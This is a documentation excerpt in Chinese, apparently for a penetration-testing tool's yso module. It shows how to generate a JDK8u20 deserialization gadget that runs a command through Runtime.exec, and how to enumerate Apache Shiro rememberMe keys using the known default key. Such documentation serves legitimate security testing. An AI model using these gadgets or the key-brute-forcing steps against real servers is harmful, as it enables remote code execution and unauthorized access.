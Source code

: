 返回：成功时返回生成的Java对象及nil错误，失败时返回nil及相应错误。

Example:
```
command = &#34;whoami&#34;
className = &#34;KEsBXTRS&#34;
gadgetObj,err = yso.GetJdk8u20JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className), // 指定恶意类的名称

)
```


#### 定义

`GetJdk8u20JavaObject(options ...GenClassOptionFun) (*JavaObject, error)`

#### 参数
|参数名|参数类型|参数解释|
|:-----------|:---------- |:-----------|
| options | `...GenClassOptionFun` |   |

#### 返回值
|返回值(顺序)|返回值类型|返回值解释|
|:-----------|:---------- |:-----------|
| r1 | `*JavaObject` |   |
| r2 | `error` |   |


### GetSimplePrincipalCollectionJavaObject

#### 详细描述
GetSimplePrincipalCollectionJavaObject 基于SimplePrincipalCollection 序列化模板生成并返回一个Java对象。

主要用于 Shiro 漏洞检测时判断 rememberMe cookie 的个数。

使用一个空的 SimplePrincipalCollection作为 payload，序列化后使用待检测的秘钥进行加密并发送，秘钥正确和错误的响应表现是不一样的，可以使用这个方法来可靠的枚举 Shiro 当前使用的秘钥。

Example:
```
javaObject, _ = yso.GetSimplePrincipalCollectionJavaObject()
classBytes,_ = yso.ToBytes(javaObject)
data = codec.PKCS5Padding(classBytes, 16)
keyDecoded,err = codec.DecodeBase64(&#34;kPH+bIxk5D2deZiIxcaaaA==&#34;)
iv = []byte(ramdstr(16))
cipherText ,_ = codec.AESCBCEncrypt(keyDecoded, data, iv)
payload = codec.EncodeBase64(append(iv, cipherText...))
发送 payload
```
